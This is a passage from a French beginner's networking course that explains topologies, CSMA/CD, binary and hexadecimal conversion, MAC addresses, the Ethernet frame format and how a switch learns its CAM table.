C'est ainsi que l'on a relié les États-Unis et l'Europe, en passant de la fibre monomode dans l'Atlantique, et en répétant le signal lumineux tous les 60 km...
La fibre aujourd'hui
Aujourd'hui, vous n'utilisez pas la fibre pour relier votre ordinateur au réseau. Par contre, elle est très utilisée chez les opérateurs Internet qui ont besoin de beaucoup de bande passante, dans les grandes entreprises dans ce que l'on appelle le cœur de réseau, et parfois dans certaines entreprises lorsqu'il y a de gros moteurs qui créent des perturbations électromagnétiques (vu que la lumière y est insensible).
Voilà, vous avez un aperçu de ce qui se fait en terme de câblage, du moins le câblage matériel, puisqu'il existe aussi aujourd'hui du câblage virtuel, j'ai nommé le wifi ! Toutefois, nous n'allons pas rentrer dans le détail de la technologie wifi.
Maintenant que nous avons du matériel pour brancher les ordinateurs, il nous reste à savoir comment nous allons organiser ces branchements, car il y a plusieurs possibilités...
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
En réseau, la topologie est la manière selon laquelle on branche les machines entre elles.
Il y a trois topologies principales :
la topologie en bus ;
la topologie en anneau ;
la topologie en étoile.
Les voici représentées sur les figures suivantes, avec des ronds pour les machines et des traits pour le câblage.
Dans la topologie en bus, toutes les machines sont branchées sur le même câble. Comme vous pouvez l'imaginer, cela se rapporte notamment à du câblage coaxial 10B2 ou 10B5.
Dans la topologie en anneau, toutes les machines sont branchées à un même câble, mais celui-ci est bouclé sur lui-même en cercle. Comme vous pouvez l'imaginer... Non, vous n'imaginez rien, car nous n'avons vu aucune technologie de câblage en anneau. Vous n'en verrez plus non plus nulle part d'ailleurs ! Ou alors ce n'est pas de chance.
Enfin, dans la topologie en étoile, toutes les machines sont branchées à une machine centrale, qui sait envoyer les informations à une machine en particulier. Cela nous fait penser à des machines reliées en paires torsadées à un switch.
Mais pourquoi a-t-on plusieurs topologies et quelles sont leurs différences ?
Caractéristiques
Nous allons les étudier une à une, sachant que l'objectif pour nos réseaux sera d'avoir un maximum de machines et une taille de réseau la plus grande possible.
Caractéristiques du bus
Comment parle-t-on sur un bus ?
Sur un bus, une seule machine peut parler à la fois vu qu'il n'y a qu'un seul câble. En gros, on écoute si une machine parle, et si personne ne parle, on parle !
Peut-on brancher une infinité de machines sur un bus ?
Non ! Tout simplement, car nous venons de voir que nous n'avons qu'un seul câble pour tout le monde. Une seule personne peut parler à un instant donné. Donc plus il y a de machines et moins nous avons de possibilités de parler.
C'est comme si vous étiez dans une pièce avec d'autres personnes. Plus vous êtes nombreux et plus il est difficile de parler et de prendre la parole.
On considère qu'au-delà de 50 machines, la probabilité de parler en même temps qu'une autre machine est plus forte que celle de parler seul, et donc que le réseau ne marchera plus...
Peut-on faire un réseau de taille illimitée ?
Non encore ! Tout simplement à cause du temps de propagation de l'information. Plus le câble est long, plus l'information met du temps à aller d'un bout à l'autre du réseau, et donc plus il y a de chances pour qu'une machine essaye de parler en même temps que les autres. La taille du réseau est donc limitée pour limiter le risque que plusieurs machines parlent en même temps.
Caractéristiques de l'anneau
Le mode de communication sur un anneau est assez différent. Il y a un "jeton" qui tourne en permanence sur l'anneau et que les machines peuvent prendre pour envoyer un message.
C'est un peu comme si vous étiez assis en rond avec des amis et que votre seul moyen de communiquer était un panier que vous vous passiez de l'un à l'autre, dans un sens.
Pour parler, il faut prendre le panier et mettre son message dedans. Vous passez le panier à votre voisin qui regarde l'adresse du destinataire. Si c'est lui, il le lit, sinon il passe à son voisin, et ainsi de suite.
Peut-on brancher une infinité de machines sur un anneau ?
Non ! Car comme pour le bus, il n'y a qu'un jeton pour tout le monde.
Peut-on faire un réseau de taille illimitée ?
Non encore ! Et la raison est la même que pour le bus. Plus l'anneau est grand et plus le jeton met du temps à le parcourir. C'est comme pour attendre le bus (pas la topologie, celui avec des roues) : plus le trajet du bus est long, plus vous risquez de l'attendre.
Caractéristiques de l'étoile
En étoile, toutes les communications passent par le point central.
On lui envoie l'information avec le nom du destinataire, et le point central aiguille l'information vers la bonne machine. C'est comme le centre de tri de la poste (sauf que c'est plus rapide... :p ).
Peut-on brancher une infinité de machines sur une étoile ?
Oui... et non ! En fait, cela dépend de la capacité de notre point central à traiter un grand nombre de machines. C'est lui, le facteur limitant.
Aujourd'hui, les switchs sont capables de traiter plusieurs milliers de machines.
Peut-on faire un réseau de taille illimitée ?
Oui ! Mais dans ce cas, il faut relier plusieurs points centraux entre eux. Ainsi, ils se transmettent l'information jusqu'à l'acheminer au destinataire.
Quelle topologie utiliser ?
Cela semble assez clair, seule la topologie en étoile possède des caractéristiques permettant d'étendre son réseau aussi bien en taille qu'en nombre de machines. Et ça tombe bien, car les réseaux en bus ou anneau sont en voie de disparition aujourd'hui.
Nous travaillerons donc par la suite sur des réseaux en étoile.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Ah oui, il nous reste une petite chose à voir avant de clore ce chapitre, le CSMA/CD !
Quoi ? C'est quoi cet acronyme à la noix ?
Cela veut dire Carrier Sense Multiple Access/Collision Detection. Voilà, il suffisait de demander !
Bon OK, vous n'êtes pas bien avancés ! Pour comprendre cet acronyme, il va falloir se replonger dans la topologie en bus, et notamment comprendre comment l'on fait pour parler sur un bus.
Dans une topologie en bus, il n'y a qu'un câble pour tout le monde, donc une seule machine peut parler à un instant t. Si deux machines parlent en même temps, il se produit une collision.
En fait, le bus transporte une information électrique. Si deux machines parlent en même temps, les signaux électriques se superposent. Quand deux signaux à 5 V arrivent en même temps sur le câble, cela donne 5 V (voir explication ici, merci à python-guy et Qubs) Par contre, si un signal 0 V arrive avec un signal 5 V, il en résulte 5 V et le premier signal devient donc incorrect (car on lit 5 V au lieu de 0 V).
Et donc on ne comprend plus rien, comme quand deux hommes politiques parlent ensemble à la télé !
Mais comment faire pour éviter les collisions ?
On ne peut pas... En revanche, on peut essayer de limiter le nombre de collisions.
C'est là que le CSMA/CD entre en jeu. Son objectif est de limiter le nombre de collisions en organisant le droit à la parole. L'idée est de mettre en place une règle qui permettrait de n'avoir presque plus de collisions.
Comment faire ? Si j'ai besoin d'envoyer une information et mon voisin aussi, on va se battre !
Nous allons mettre en place une règle, et la respecter.
On écoute en permanence sur le bus pour savoir si quelqu'un parle ou s'il y a une collision.
On ne peut parler que quand le bus est libre.
Si jamais on parle, mais qu'une collision survient (parce que quelqu'un a eu la même idée que nous) on doit se taire et attendre pour reparler.
Oui mais, s'il y a une collision, je me tais et j'attends. L'autre machine qui a parlé fait pareil. Seulement, lorsqu'on veut reparler il y a de nouveau une collision. Il va donc falloir une petite astuce pour éviter ce phénomène.
Pour cela, lorsque nous détectons une collision, nous allons attendre un temps aléatoire avant de reparler. Vu que ce temps est aléatoire, il y a peu de chances pour que les deux machines tombent sur le même temps.
Je récapitule le CSMA/CD :
On écoute en permanence sur le bus pour savoir si quelqu'un parle ou s'il y a une collision.
On ne peut parler que quand le bus est libre.
Si jamais on parle, mais qu'une collision survient (parce que quelqu'un a eu la même idée que nous) on doit se taire.
On attend un temps aléatoire.
On reparle.
Si jamais il y a une collision, on revient à l'étape 4, sinon, c'est bon !
Dans la réalité, cela donne par exemple :
Deux machines A et B parlent en même temps.
Elles détectent la collision.
Elles attendent toutes les deux un temps aléatoire. 2 s pour A et 3 s pour B.
Après 2 s, A recommence à parler.
Après 3 s, B voit que A parle et attend son tour.
Dès que A a fini, B peut parler.
Ça marche ! :)
vous savez maintenant que le rôle principal de la couche 1 est d'offrir un support de transmission pour les communications ;
le câble le plus utilisé aujourd'hui est la paire torsadée, munie de prises RJ45 ;
le matériel utilisé pour connecter les machines est le hub ;
il existe plusieurs organisations pour brancher les machines, appelées topologies ;
la topologie la plus utilisée est la topologie en étoile ;
sur une topologie en bus, il peut y avoir des collisions ;
enfin, vous savez que le CSMA/CD permet de s'affranchir des problèmes de collisions.
Vous avez maitnenant un bon aperçu de la couche 1 et êtes prêts pour aborder la couche 2.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
La couche 1 n'a plus de secrets pour vous : vous savez câbler un réseau et maîtrisez le matériel associé.
Maintenant, il serait bien de pouvoir envoyer des informations d'une machine à une autre, de s'ouvrir au grand monde, de rêver d'un monde de communication... OK je m'emporte.
Commençons par comprendre la couche 2 et nous aurons déjà fait un grand pas ! :)
Vous allez voir que dans ce chapitre et le suivant nous allons aborder beaucoup de notions qui vous seront utiles en réseau. Il est très important de bien maîtriser ces notions, ne négligez donc pas ces chapitres et les suivants.
Comme nous l'avons vu dans un chapitre précédent, la couche 2 se nomme la couche liaison, ou plus précisément, liaison de données. Cependant, ce qu'il y a à retenir n'est pas dans le nom, mais bien dans le rôle.
Plus exactement, l'objectif est de permettre à des machines connectées ensemble de communiquer. Nous allons donc dans ce chapitre voir ce qu'il faut mettre en œuvre pour établir une communication entre deux ou plusieurs machines.
Ceci étant, nous allons un peu vite en besogne, car la couche 2 possède un autre rôle important qui est la détection des erreurs de transmission. J'ai bien dit détection, et non pas correction, la différence est importante, car la couche 2 verra les erreurs, et fermera les yeux sur celles-ci.
Si avec tout cela on n'arrive pas à parler, je n'ai plus qu'à changer de métier !
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Pour parler ensemble quand nous sommes deux, ce n'est pas bien compliqué : je parle et l'autre écoute (du moins la plupart du temps...).
Dès que le nombre de participants augmente, ça devient plus compliqué, car l'on peut vouloir s'adresser à une personne en particulier pour lui communiquer une information secrète.
En réseau c'est pareil, on veut parfois parler à tout le monde mais aussi, la plupart du temps, parler à une machine en particulier. Et pour pouvoir parler à une machine en particulier, il va bien falloir être capable de l'identifier. Les chercheurs ont donc créé un identifiant particulier à la couche 2 qui permettrait de distinguer les machines entre elles, il s'agit de l'adresse MAC !
Waouh ! Une machine a donc une adresse MAC pour être identifiée ?
Pas exactement en fait. Vu que nous sommes en couche 2, et donc encore proches de la couche 1, l'adresse MAC est en liaison avec le matériel, et notamment la carte réseau.
Notation de l'adresse MAC
Un peu de calcul binaire
Attention, sortez vos cerveaux, il va falloir faire du calcul binaire. Et en réseau, on va en faire beaucoup, beaucoup. Donc autant s'y mettre dès maintenant !
Euh, c'est quoi le binaire ?
Le binaire est un système de numération en base 2. Globalement, cela veut dire qu'on ne peut compter qu'avec 1 et 0, contrairement au système de numération décimal que nous avons l'habitude d'utiliser dans lequel on se sert des chiffres de 0 à 9.
Si je compte en binaire, cela donne le résultat suivant :
0
1
10
11
100
101
110
111
1000
Ce qui est équivalent en décimal à :
0
1
2
3
4
5
6
7
8
Mais pourquoi du binaire ? On est punis ?
Parce que nous avons vu dans le chapitre précédent que les informations électriques passaient sous la forme de 0 V ou 5 V, soit deux états différents 0 ou 1.
Comment calculer en binaire ?
Il y a plusieurs façons de faire, je vais vous en présenter une qui est relativement facile à utiliser.
Vous avez l'habitude de travailler en décimal. Eh bien il faut savoir que tout nombre décimal peut s'écrire en binaire.
Plus exactement, tout nombre décimal peut s'écrire comme une somme de puissances de 2.
Prenons un exemple avec le nombre 45. Il peut s'écrire :
Tout nombre décimal peut s'écrire comme une somme de puissances de 2.
On peut donc faire un tableau de puissances de 2 qui nous aidera à faire nos calculs :
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
?
-
-
-
-
-
-
-
-
Pour notre nombre 45, cela donne :
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
45
0
0
1
0
1
1
0
1
Soit 101101.
Ce que nous allons faire pour un calcul, c'est de regarder si la puissance de 2 la plus élevée peut être contenue dans notre nombre, et recommencer avec la puissance de 2 suivante.
Pour notre exemple, est-ce que 128 peut être contenu dans 45 ? Non, je mets 0 dans la colonne 128.
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
45
0
On passe à la puissance de 2 suivante :
Est-ce que 64 peut être contenu dans 45 ? Non, je mets 0 dans la colonne 64.
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
45
0
0
Est-ce que 32 peut être contenu dans 45 ? Oui ! Je mets 1 dans la colonne 32 ET j'ôte 32 à 45.
45 - 32 = 13
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
45
0
0
1
Je continue maintenant avec ce nouveau chiffre. Est-ce que 16 peut être contenu dans 13 ?
Non, je mets 0 dans la colonne 16.
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
45
0
0
1
0
Est-ce que 8 peut être contenu dans 13 ? Oui ! Je mets 1 dans la colonne 8 ET j'ôte 8 à 13.
13 - 8 = 5
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
45
0
0
1
0
1
Est-ce que 4 peut être contenu dans 5 ? Oui ! Je mets 1 dans la colonne 4 ET j'ôte 4 à 5.
5 - 4 = 1
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
45
0
0
1
0
1
1
Est-ce que 2 peut être contenu dans 1 ? Non, je mets 0 dans la colonne 2.
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
45
0
0
1
0
1
1
0
Est-ce que 1 peut être contenu dans 1 ? Oui ! Je mets 1 dans la colonne 1 ET j'ôte 1 à 1.
1 - 1 = 0 donc j'ai fini !
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
45
0
0
1
0
1
1
0
1
Un autre exemple ? OK.
Essayez de calculer 109 en binaire.
Est-ce que 128 peut être contenu dans 109 ?
Non, je mets 0 dans la colonne 128.
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
109
0
On passe à la puissance de 2 suivante :
Est-ce que 64 peut être contenu dans 109 ? Oui, je mets 1 dans la colonne 64 ET j'ôte 64 à 109.
109 - 64 = 45
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
109
0
1
Est-ce que 32 peut être contenu dans 45 ? Oui ! Je mets 1 dans la colonne 32 ET j'ôte 32 à 45.
45 - 32 = 13
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
109
0
1
1
Je continue maintenant avec ce nouveau chiffre.
Est-ce que 16 peut être contenu dans 13 ? Non, je mets 0 dans la colonne 16.
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
109
0
1
1
0
Est-ce que 8 peut être contenu dans 13 ? Oui ! Je mets 1 dans la colonne 8 ET j'ôte 8 à 13.
13 - 8 = 5
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
109
0
1
1
0
1
Est-ce que 4 peut être contenu dans 5 ? Oui ! Je mets 1 dans la colonne 4 ET j'ôte 4 à 5.
5 - 4 = 1
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
109
0
1
1
0
1
1
Est-ce que 2 peut être contenu dans 1 ? Non, je mets 0 dans la colonne 2.
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
109
0
1
1
0
1
1
0
Est-ce que 1 peut être contenu dans 1 ? Oui ! Je mets 1 dans la colonne 1 ET j'ôte 1 à 1.
1 - 1 = 0 donc j'ai fini !
27
26
25
24
23
22
21
20
128
64
32
16
8
4
2
1
109
0
1
1
0
1
1
0
1
Nous avons donc notre résultat : 109 en décimal s'écrit 1101101 en binaire.
Pouvait-on aller plus vite pour ce calcul ?
Oui ! Car dès le premier calcul, on tombait sur un reste de 45. Or, nous savions écrire 45 en binaire et nous aurions pu indiquer directement les 6 derniers chiffres.
Pour travailler en binaire, il va nous falloir beaucoup d'astuce. N'hésitez pas à en user, mais attention, si vous ne vous sentez pas à l'aise, revenez à la méthode de base.
Bon super, je sais calculer en binaire, mais cela ne m'aide pas pour les adresses MAC pour l'instant...
Et l'adresse MAC là-dedans ?
Maintenant que nous sommes des pros du binaire, nous pouvons nous attaquer à l'adresse MAC. Sauf que l'adresse MAC s'écrit en hexadécimal...
Quoi ? :colere: On se moque de nous, on travaille le binaire, on se saigne aux quatre veines et on ne s'en sert même pas ?
Mais si ! Car quand on a compris le binaire, l'hexadécimal n'est pas bien compliqué. À l'inverse du binaire pour lequel nous n'avions que 0 et 1 comme chiffres à notre disposition, en hexadécimal nous en avons 16 !
Moi je connais les chiffres de 0 à 9, mais il existerait d'autres chiffres ?
Oui, en fait nous utilisons simplement les premières lettres de l'alphabet après 9. En hexadécimal nous avons donc :
Citation
<p>0, 1, 2, 3, 4, 5, 6, 7, 8, 9... a, b, c, d, e et f !</p>
Par exemple, 10 en hexadécimal s'écrit a.
11 s'écrit b, etc.
Je vais vous épargner les calculs, mais le principe est le même. Notre adresse MAC s'écrira donc en hexadécimal.
En voici une pour l'exemple : 00:23:5e:bf:45:6a
Codage de l'adresse MAC
Nous savons maintenant de quoi est composée l'adresse MAC, mais pour la voir plus en détail, nous allons déjà voir sa taille.
Un octet est une unité informatique indiquant une quantité de données.
Par exemple, quand vous achetez un disque dur, vous connaissez sa taille en nombre d'octets. Un disque 40 Go fera 40 gigaoctets, soit 40 000 000 000 octets !
Comme nous l'avons vu avant, une valeur binaire peut être soit 0, soit 1. Un bit peut donc coder deux valeurs, deux bits peuvent coder quatre valeurs, trois bits 8 valeurs, etc. Dans l'exemple de deux bits, chacun d'eux peut prendre les valeurs 0 ou 1 ; quand on les couple on peut donc prendre les valeurs : 00, 01, 10, 11
Ceci donne bien 4 valeurs différentes. Vous pouvez essayer avec 3 ou 4 bits de trouver toutes les combinaisons possibles.
En fait, on en déduit que x bits peuvent coder 2x valeurs !
Ce qui nous donne pour un octet, qui représente 8 bits : 1 octet = 28 = 256 valeurs !
Un octet est donc compris entre 0 et... 255 (puisqu'on démarre à 0)
Notre adresse MAC est codée sur 48 bits. Combien cela représente-t-il d'octets et de valeurs possibles (en puissances de 2) ?
Vu que l'adresse MAC est codée sur 48 bits, elle peut prendre 248 valeurs. Soit... 281 474 976 710 656 valeurs ! Soit plus de 280 mille milliards d'adresses MAC possibles ! Ça fait beaucoup...
Trucs et astuces !
Si vous voulez avoir une idée de la valeur décimale d'une grande puissance de 2, c'est facile.
Prenons pour exemple 248 :
248 = 210 * 210 * 210 * 210 * 28
Or, 210 vaut à peu près 1000 (1024 exactement).
Nous avons donc 248 = 1000 * 1000 * 1000 * 1000 * 256.
Soit 256 mille milliards... facile, et plus besoin de calculette !
Nous avons donc beaucoup, beaucoup... beaucoup d'adresses MAC.
Ça tombe bien, car chaque adresse MAC va être unique au monde.
Comment c'est possible, ça ? On ne se trompe jamais ?
Normalement non. Un constructeur qui fabrique des cartes réseau va acheter des adresses MAC, ou plus exactement des morceaux d'adresses MAC.
Les trois premiers octets de l'adresse représentent le constructeur.
Ainsi, quand un constructeur veut produire les cartes, il achète trois octets qui lui permettront de donner des adresses à ses cartes. Par exemple, j'achète la suite de trois octets: 00:01:02. Toutes les cartes réseau que je vais produire vont commencer par ces trois octets, par exemple : 00:01:02:00:00:01 ; puis : 00:01:02:00:00:02 ; etc.
Si je choisis toujours les trois derniers octets différents pour les cartes que je produis, je suis sûr qu'aucune autre carte réseau n'aura la même adresse MAC, car je suis le seul à posséder les trois premiers octets 00:01:02 et j'ai fait attention à ce que les trois derniers ne soient pas identiques.
Récapitulons :
L'adresse MAC est l'adresse d'une carte réseau.
Elle est unique au monde pour chaque carte.
Elle est codée sur 6 octets (soit 48 bits).
Une adresse MAC spéciale
Parmi les adresses MAC, il y en a une particulière, c'est l'adresse dans laquelle tous les bits sont à 1, ce qui donne ff:ff:ff:ff:ff:ff.
Cette adresse est appelée l'adresse de broadcast.
L'adresse de broadcast est une adresse universelle qui identifie n'importe quelle carte réseau.
Elle me permet ainsi d'envoyer un message à toutes les cartes réseaux des machines présentes sur mon réseau, en une seule fois.
Et maintenant ?
Maintenant, nous savons relier les ordinateurs entre eux grâce à la couche 1 et les identifier grâce à l'adresse MAC de couche 2.
Il serait bien de définir un langage pour pouvoir les faire communiquer !
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous allons devoir définir un langage pour communiquer entre machines. Ce langage permettra de définir le format des messages que les ordinateurs vont s'échanger. Et le gagnant est... Ethernet ! En réseau, on traduit langage par protocole, pour faire plus pro.
À quoi sert un protocole ?
L'objectif des réseaux est de pouvoir s'échanger des informations. Étant donné que nous discutons entre des machines très différentes, qui elles-mêmes ont des systèmes d'exploitation très différents (Windows, Mac OS, Linux, etc.), nous devons créer un langage de communication commun pour se comprendre. C'est le protocole.
Nous avons vu que des 0 et des 1 allaient circuler sur nos câbles. Nous allons donc recevoir des choses du genre : 001101011110001100100011111000010111000110001...
Ce qui ne veut pas dire grand-chose... tant que nous ne nous entendons pas sur leur signification. Le protocole va ainsi définir quelles informations vont être envoyées, et surtout dans quel ordre.
Dans notre message, nous allons au moins devoir envoyer :
l'adresse de l'émetteur ;
l'adresse du destinataire ;
le message proprement dit.
Ainsi, nous pouvons très bien dire que les 48 premiers caractères que nous allons recevoir représentent l'adresse MAC de l'émetteur (puisque l'adresse MAC fait 48 bits) les 48 suivants l'adresse du récepteur, puis enfin le message.
Plus exactement, nous allons appeler ce message, une trame.
Format d'une trame Ethernet
Nous avons donné un format d'exemple dans le paragraphe précédent, mais nous allons voir le vrai format utilisé. Intéressons-nous d'abord aux adresses MAC. Laquelle placer en premier ? L'émetteur ou le récepteur ?
Pour répondre à cette question, nous allons nous mettre dans la peau d'une machine qui réceptionne un message.
Est-ce plus intéressant de connaître l'adresse de celui qui nous envoie le message, ou celle de celui à qui il est destiné ?
Eh bien les chercheurs ont estimé qu'il était plus intéressant de connaître l'adresse du destinataire, car ainsi nous pouvons immédiatement savoir si le message est pour nous ou pas. S'il est pour nous, nous en continuons la lecture. S'il n'est pas pour nous, ce n'est pas la peine de passer du temps à le lire... poubelle !
Nous allons donc positionner en premier l'adresse MAC du destinataire, suivie de l'adresse MAC de l'émetteur (aussi appelée adresse MAC source).
Adresse MAC DST (destinataire)
Adresse MAC SRC (source)
Suite du message ???
Trame Ethernet
Et ensuite ?
Ensuite, nous avons besoin d'une information un peu particulière. Pour la comprendre, vous devez vous rappeler du modèle OSI... Bon d'accord, je vous aide avec un schéma (voir la figure suivante) !
Nous avons vu que, lors de l'envoi d'une information, nous parcourons les couches de haut en bas (voir la figure suivante).
Nous sommes donc passés par la couche 3 avant de passer par la couche 2. La couche 3 peut donc indiquer à la couche 2 quel est le protocole qui a été utilisé en couche 3.
Et c'est utile, car à l'arrivée, quand la couche 2 de la machine réceptrice reçoit les données, qu'elle voit que l'adresse MAC de destination est bien la sienne, elle doit envoyer les informations à la couche 3, et donc au bon protocole de couche 3.
Il est donc nécessaire d'indiquer dans la trame quel protocole de couche 3 a été utilisé quand le message a été envoyé et qu'il a traversé les couches du modèle OSI de haut en bas.
Notre trame devient donc :
Adresse MAC DST (destinataire)
Adresse MAC SRC (source)
Protocole de couche 3
Suite du message ???
Trame Ethernet
Nous avons presque tout !
Pourquoi presque ?!
Parce qu'il nous manque l'essentiel :
l'information à envoyer ;
nous n'avons toujours pas réglé le problème de la détection d'erreurs.
Pour l'information, nous allons la placer juste après le protocole de couche 3. De plus, nous allons enchaîner avec le code de correction des erreurs, ou CRC.
Qu'est-ce que le CRC ?
En gros cela veut dire que c'est un nombre qui sera différent pour chaque message.
Imaginons qu'une machine A envoie un message à une machine B.
Lors de l'envoi, A calcule le CRC (une valeur X) et le met à la fin de la trame.
B reçoit le message et fait le même calcul que A avec la trame reçue (une valeur Y).
B compare la valeur qu'elle a calculée (Y) avec la valeur que A avait calculée et mise à la fin de la trame (X).
Si elles sont égales, bingo ! La trame envoyée par A est bien identique à la trame reçue par B.
Si elles sont différentes, gloups ! Il y a eu une erreur lors de la transmission. La trame reçue par B n'est apparemment pas la même que celle envoyée par A. Il y a eu un problème quelque part, mais nous l'avons détecté !
La trame complète
Nous avons maintenant tous les éléments de la trame et avons donc la trame complète :
Adresse MAC DST (destinataire)
Adresse MAC SRC (source)
Protocole de couche 3
Données à envoyer
CRC
Trame Ethernet
Quelle taille pour la trame ?
Il y a des éléments qui ne varient jamais d'une trame à l'autre. L'ensemble de ces éléments est appelé en-tête ou, dans le cas de la couche 2, en-tête Ethernet. Ils sont indiqués ici en rouge.
Adresse MAC DST
Adresse MAC SRC
Protocole de couche 3
Données à envoyer
CRC
Trame Ethernet
Cet en-tête ne variant pas, nous pouvons définir sa taille :
les adresses MAC font chacune 6 octets ;
le protocole de couche 3 est codé sur 2 octets ;
le CRC est codé sur 4 octets.
Ce qui donne un total de 18 octets pour l'en-tête Ethernet.
Mais la trame a-t-elle besoin d'une taille minimale ? Et d'une taille maximale ?
La réponse est oui. La taille minimale permettra de garantir que, lors d'une collision, la machine ayant provoqué la collision détectera celle-ci (l'explication étant un peu complexe et peu utile ici, je vous en ferai grâce). La taille minimale est de 64 octets, pour une trame Ethernet.
La raison de la taille maximale est tout autre.
S'il n'y avait pas de taille maximale, il serait possible qu'une machine envoie une gigantesque trame qui occuperait tout le réseau, empêchant les autres machines de communiquer. C'est pour éviter ce genre de problème qu'une taille maximale a été choisie. La taille maximale est de 1518 octets, pour une trame Ethernet.
Nous savons donc maintenant tout de la trame Ethernet ! Récapitulons un peu, en observant un échange de données entre deux machines A et B.
Une application sur la machine A veut envoyer des données à une autre application sur une machine B.
Le message parcourt les couches du modèle OSI de haut en bas.
La couche 3 indique à la couche 2 quel protocole a été utilisé.
La couche 2 peut alors former la trame et l'envoyer sur le réseau.
La machine B reçoit la trame et regarde l'adresse MAC de destination.
C'est elle ! elle lit donc la suite de la trame.
Grâce à l'information sur le protocole de couche 3 utilisé, elle peut envoyer les données correctement à la couche 3.
Le message remonte les couches du modèle OSI et arrive à l'application sur la machine B.
Waouh ! Nous savons communiquer entre machines sur un réseau local !
Enfin presque, car nous n'avons pas encore vu comment connecter plusieurs machines entre elles, et cela va se faire grâce à un matériel particulier...
on sait maintenant que le rôle principal de la couche 2 est de connecter les machines sur un réseau local ;
elle permet aussi de détecter les erreurs ;
le protocole utilisé en couche 2 est le protocole Ethernet ;
les cartes réseau ont une adresse qui est l'adresse MAC ;
l'adresse MAC est codée sur 6 octets, soit 48 bits ;
chaque adresse MAC est unique au monde ;
il existe une adresse particulière, l'adresse de broadcast qui permet de parler à tout le monde, ff:ff:ff:ff:ff:ff ;
Vous connaissez les principes de la couche 2 et nous allons maintenant étudier en détail l'équippement qui permet de connecter les machines entre elles, le switch.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Le commutateur est un matériel qui va pouvoir nous permettre de relier plusieurs machines entre elles.
On l'appelle aussi switch en anglais. Ce terme étant très souvent utilisé en français, nous pourrons donc utiliser les deux.
Un commutateur est un boîtier sur lequel sont présentes plusieurs prises RJ45 femelles permettant de brancher dessus des machines à l'aide de câbles à paires torsadées. Des images valant mieux que des grands discours, voici, à la figure suivante, un commutateur.
Nous allons donc brancher nos machines au switch, voire d'autres switchs à notre switch (figure suivante).
Si tout le monde est connecté ensemble, comment le switch sait à qui envoyer la trame ?
L'aiguillage des trames
Pour envoyer la trame vers la bonne machine, le switch se sert de l'adresse MAC destination contenue dans l'en-tête de la trame.
Il contient en fait une table qui fait l'association entre un port du switch (une prise RJ45 femelle) et une adresse MAC. Cette table est appelée la table CAM.
Prenons un exemple, avec le schéma de la figure suivante.
La table CAM de notre switch sera la suivante :
Port
@MAC
1
@MAC 23
2
@MAC 24
3
@MAC 25
Quand la machine 23 voudra envoyer une trame à la machine 25, le switch lira l'adresse destination et saura alors vers quel port renvoyer la trame :
Adresse MAC 25
Adresse MAC 23 (source)
Protocole de couche 3
Données à envoyer
CRC
Trame envoyée de 23 à 25
Port
@MAC
1
@MAC 23
2
@MAC 24
3
@MAC 25
Le switch va donc envoyer la trame sur le port 3, et elle arrivera bien à la machine 25 qui est branchée sur ce port, et à elle seule !
Donc un switch sait aiguiller une trame vers la bonne machine.
Comment cette table CAM est fabriquée ? Si je branche une nouvelle machine, comment le switch la connaît ?
Mise à jour de la table CAM
La table CAM du switch va être fabriquée de façon dynamique. Cela veut dire que le switch va apprendre, au fur et à mesure qu'il voit passer des trames, quelle machine est branchée à quel port.
Prenons l'exemple précédent, imaginons que la table CAM du switch est vide et que l'on vient de brancher les machines (voir la figure suivante).
Port
@MAC
Table CAM vide
Imaginons maintenant que la machine 23 envoie une trame à la machine 25.
Adresse MAC 25 (destination)
Adresse MAC 23 (source)
Protocole de couche 3
Données à envoyer
CRC
Trame envoyée de 23 à 25
La trame arrive au switch.
Il lit l'adresse MAC source et voit l'adresse MAC de la machine 23.
Vu que la trame vient du port 1, il met en relation le port 1 et l'adresse MAC de la machine 23 dans sa table CAM.
Il met à jour sa table CAM.
Port
@MAC
1
@MAC 23
Table CAM mise à jour
Par contre, l'adresse MAC destination n'est pas présente dans sa table CAM, il ne sait donc pas où envoyer la trame. Pour être sûr que la machine destination va recevoir la trame, il lui suffit de l'envoyer à tout le monde, donc de renvoyer la trame sur tous les ports actifs du switch !
La machine 25 va donc recevoir la trame et va pouvoir répondre à la machine 23. Elle va donc envoyer une trame à la machine 23.
Adresse MAC 23 (destination)
Adresse MAC 25 (source)
Protocole de couche 3
Données à envoyer
CRC
Trame de réponse envoyée de 25 à 23
La trame arrive au switch.
Il lit l'adresse MAC source et voit l'adresse MAC de la machine 25.
Vu que la trame vient du port 3, il met en relation le port 3 et l'adresse MAC de la machine 25 dans sa table CAM.
Il met à jour sa table CAM.
Port
@MAC
1
@MAC 23
3
@MAC 25
Table CAM mise à jour
Et ainsi de suite à chaque fois qu'il voit passer une trame :
le switch met à jour sa table CAM quand il voit passer une trame ;
le switch envoie une trame à tout le monde s'il n'a pas l'adresse MAC de destination dans sa table CAM.
OK, nous avons vu maintenant comment fonctionnait le switch, mais si je comprends bien, la table CAM ne va jamais cesser de grandir vu que l'on y ajoute en permanence des informations ?
Le TTL de la table CAM
En réseau, nous allons très, très souvent parler de TTL.
Le principe est de considérer qu'une donnée est valable pendant un certain temps, mais qu'au-delà de ce temps, elle ne l'est plus.
C'est un peu l'équivalent des dates de péremption sur les yaourts : le yaourt est mangeable tant que la date n'est pas dépassée.
